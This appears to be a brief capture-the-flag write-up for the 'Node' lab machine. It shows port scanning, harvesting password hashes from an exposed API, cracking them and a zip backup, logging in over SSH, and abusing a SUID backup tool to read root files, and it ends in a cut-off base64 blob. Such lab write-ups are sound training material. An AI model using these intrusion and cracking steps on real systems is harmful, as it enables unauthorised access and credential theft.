# Node

furious 10.10.10.58

nmap -sC -sV -p22,3000 -Pn -n 10.10.10.58 -oN targeted


#3000
```bash
dirb http://10.10.10.58:3000 -a "gaogao"
```

# 80


ctrl + u



in http://10.10.10.58:3000/api/users

```JSON
[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},
{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},
{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},
{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
```

## crackstation

https://crackstation.net/



myP14ceAdm1nAcc0uNT dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af	sha256	manchester
tom f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240	sha256	spongebob
mark de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73	sha256	snowflake
rastating 5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0	Unknown	Not found.

## on login
http://10.10.10.58:3000/login


```bash
cat myplace.backup| base64 -d > myplace

# one form
zip2john myplace > myplace.john
john --wordlist=/usr/share/wordlists/rockyou.txt myplace.john

# second form
fcrackzip -uDp /usr/share/wordlists/rockyou.txt myplace

# both cases
password magicword

unzip myplace
```


mark: 5AYRft73VtFpc84k

# 22 ssh
```
ssh mark@10.10.10.58
ps aux | grep tom
```


cat /var/scheduler/app.js


# mongodb


cat /home/tom/user.txt

### in our machine we find in /var/www/myplace/app.js


### find the suid










```bash
7z e backup.zip

# pass = magicword

cat root.txt
```



### filtered


```bash
export HOME=/root
backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "~"
```

in our machine
```bash
echo "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